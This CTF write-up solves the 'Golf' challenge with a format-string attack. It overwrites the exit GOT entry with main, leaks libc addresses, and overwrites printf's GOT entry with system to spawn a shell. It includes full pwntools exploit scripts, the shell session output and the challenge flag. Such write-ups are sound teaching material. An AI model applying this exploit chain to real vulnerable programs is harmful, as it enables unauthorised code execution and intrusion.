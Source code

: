 # Golf
## Some challenges provide source code to make life easier for beginners. Others provide it because reversing the program would be too time consuming for the CTF. Still others, like this one, do it just for the memes.
 - author: Eth007
 - solves: 30

 This problem provides the interestingly formatted C source and the compiled binary.
 
 golf.c
 ```c
 #include <stdio.h>
#include <stdlib.h>
#include <string.h>

__attribute__((constructor))

_(){setvbuf /* well the eyes didn't work out */
(stdout,0,2
,0);setvbuf
(stdin,0,2,
0);setvbuf(
stderr,0,2,
0)       ;}

main( ){ char  /* sus */
aa[       256
];;       ;;;
fgets(aa,256,
stdin ) ; if(
strlen (aa) <
11)printf(aa)
; else ; exit
(00       );}

/* i tried :sob: */
```
binary protections:
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
The code declares a 256 byte buffer, reads 256 bytes into the buffer via fgets and printfs the buffer without providing a format string. This a format string vulnerability, but the catch is that the vulnerability is only triggered if the provided string is less then 11 bytes less. The binary is no pie so the position of the GOT is fixed, and partial relro allows us to overwrite GOT entries. `main` terminates by called `exit(0);`, if we can overwrite the exit GOT entry with the address to main then we can infinitely trigger the printf vulnerability and pop a shell.

The printf function has a format specifier `%n` which writes the current number of bytes outputted into an `int *` provided in the argument list.

Looking at the printf specification [ibm](https://www.ibm.com/docs/en/zos/2.1.0?topic=functions-fprintf-printf-sprintf-format-write-data) or [microsoft](https://docs.microsoft.com/en-us/cpp/c-runtime-library/format-specification-syntax-printf-and-wprintf-functions?view=msvc-170), the argument to format specifiers can be chosen using `%<number>$<fmt specififer>` syntax.

```c
#include <stdlib.h>
#include <stdio.h>
#include <assert.h>

int main(int argc, char ** argv) {
    int a = 0, b = 0;
    printf("four%2$n", &a, &b);
    assert(a == 0);
    assert(b == 4);
}
```

![width.png](./static/width.png)

The specification also mentions that the width of an argument can be specified using the argument list using `%*<number>$<fmt specifier>`.

This can be abused by constructing a payload: `%*8$u%9$n\x00\x00\x00\x00\x00\x00\x00<address of main><address of exit GOT entry>`. That passes the strlen check and overwrites the exit GOT entry with main. Afterwards the libc address can be leaked by printing the dynamic pointers in the GOT table, and activiating a shell by overwriting the printf GOT entry with system and calling `printf("/bin/sh");`.

In order to determine the libc base address the libc exact libc version needs to be known. The problem does not provide the libc itself, but the libc can be found by leaking dynamic address and using a [libc searcher](https://libc.rip) to determine the libc version.

```python
from pwn import *

io = remote("golf.chal.imaginaryctf.org", 1337)
file = ELF("./golf")

def consume(n):
    r = 0
    print()
    while r < n:
        b = io.recv(n - r, timeout=0.1)
        r += len(b)
        print(f"\x1b[A\x1b[1Kprogress: {r/n:.4f}")

def build(fmt, a, b):
    return fmt.encode().ljust(0x10, b'\x00') + p64(a) + p64(b)

io.sendline(build("%*8$u%9$n", file.symbols["main"], file.got["exit"]))

consume(file.symbols["main"])
io.recv()

for (fname, addr) in zip(file.got.keys(), file.got.values()):
    io.sendline(build("%8$s:", addr, 0))
    leak = u64(io.recvuntil(b':')[:-1].ljust(8, b'\x00'))
    print(f"{fname}: {leak:x}")
```
this outputs:
```
__libc_start_main: 7fa95abccf90
__gmon_start__: 0
stdout: 7fa95ad966a0
stdin: 7fa95ad95980
stderr: 7fa95ad965c0
strlen: 7fa95ad316d0
printf: 7fa95ac0ac90
fgets: 7fa95ac2b630
setvbuf: 7fa95ac2dce0
exit: 40121b
```
The libc is always loaded at a page aligned address (a page is 4096 bytes), which means the lower 12 bits of the libc base address guaranteed always be zero. This enables libc searchers because the lower 12 bits of function address within the libc can be used to identify the exact libc version.
![libc-rip.png](./static/libc-rip.png)
Using [libc.rip](https://libc.rip) yields two results, now we can leak the address of printf and use the static offset to calculate the libc base.
```python
from pwn import *

io = remote("golf.chal.imaginaryctf.org", 1337)
file = ELF("./golf")

def consume(n):
    r = 0
    print()
    while r < n:
        b = io.recv(n - r, timeout=0.1)
        r += len(b)
        print(f"\x1b[A\x1b[1Kprogress: {r/n:.4f}")

def build(fmt, a, b):
    return fmt.encode().ljust(0x10, b'\x00') + p64(a) + p64(b)

io.sendline(build("%*8$u%9$n", file.symbols["main"], file.got["exit"]))

consume(file.symbols["main"])
io.recv()

for (fname, addr) in zip(file.got.keys(), file.got.values()):
    io.sendline(build("%8$s:", addr, 0))
    leak = u64(io.recvuntil(b':')[:-1].ljust(8, b'\x00'))
    print(f"{fname}: {leak:x}")

io.sendline(build("%8$s:", file.got["printf"], 0))

leak = u64(io.recvuntil(b':')[:-1] + b"\x00\x00")
print(f"leak: {leak:x}")
base = leak - 0x61c90
print(f"base: {base:x}")
system = base + 0x52290
print(f"system: {system&0xFFFFFFFF:x}")

io.sendline(build("%*8$u%9$n", system&0xFFFFFFFF, file.got["printf"]))

consume(system&0xFFFFFFFF)

io.sendline(b"/bin/sh\x00")
io.interactive()
```
The reason for the custom consume function instead of using io.recvall() is that io.recvall() was unable to fully catch all of the incoming information and when io.interactive() is called the terminal freezes as it attempts to process and display a few million bytes of whitespace. As a result the exploit takes a few minutes to run because it has to first make sure to recieve all the bytes from the server before continuing.
```
progress: 1.0000
__libc_start_main: 7f4e15dc1f90
__gmon_start__: 0
stdout: 7f4e15f8b6a0
stdin: 7f4e15f8a980
stderr: 7f4e15f8b5c0
strlen: 7f4e15f266d0
printf: 7f4e15dffc90
fgets: 7f4e15e20630
setvbuf: 7f4e15e22ce0
exit: 40121b
leak: 7f4e15dffc90
base: 7f4e15d9e000
system: 15df0290
progress: 1.0000
[*] Switching to interactive mode
$ ls
chal
flag.txt
$ cat flag.txt
ictf{useless_f0rmat_string_quirks_f0r_days_9b5d191f}
$ 
[*] Interrupted
[*] Closed connection to golf.chal.imaginaryctf.org port 1337
```
## Flag: ictf{useless_f0rmat_string_quirks_f0r_days_9b5d191f}